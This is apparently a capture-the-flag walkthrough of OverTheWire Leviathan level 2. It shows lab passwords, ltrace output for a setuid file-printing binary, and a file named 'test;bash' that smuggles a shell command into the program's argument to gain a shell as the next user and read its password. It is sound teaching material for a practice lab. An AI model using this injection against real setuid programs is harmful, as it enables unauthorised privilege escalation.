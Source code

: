 ```
ougahZi8Ta
```


# Level 2

``sshpass -p ougahZi8Ta ssh leviathan2@leviathan.labs.overthewire.org -p 2223``

```
leviathan2@leviathan:~$ ls
printfile
leviathan2@leviathan:~$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Weird.. why can't we access the password even though we can run as ``leviathan3``? Let's run ``ltrace`` to check out what's in the script.

```
leviathan2@leviathan:~$ ltrace ./printfile
__libc_start_main(0x804852b, 1, 0xffffd784, 0x8048610 <unfinished ...>
puts("*** File Printer ***"*** File Printer ***
)                                              = 21
printf("Usage: %s filename\n", "./printfile"Usage: ./printfile filename
)                             = 28
+++ exited (status 255) +++
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                               = -1
puts("You cant have that file..."You cant have that file...
)                                        = 27
+++ exited (status 1) +++
```

It seems like the script takes a filename as input and then calls ``access()`` to check if it has the permissions to read that file. Then, it creates a string using ``sprintf("/bin/cat %s", filename)`` and then elevates the id.

What if we create a new file as a string literal called ``"test;bash"`` to trick the system into running a fake command, then elevate itself and thereafter run bash?

```
 leviathan2@leviathan:~$ mkdir /tmp/shiro
leviathan2@leviathan:~$ cd /tmp/shiro
leviathan2@leviathan:/tmp/shiro$ touch "test;bash"
leviathan2@leviathan:/tmp/shiro$ ls
test;bash
leviathan2@leviathan:/tmp/shiro$ ~/printfile "test;bash"
/bin/cat: test: No such file or directory
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
Ahdiemoo1j
```
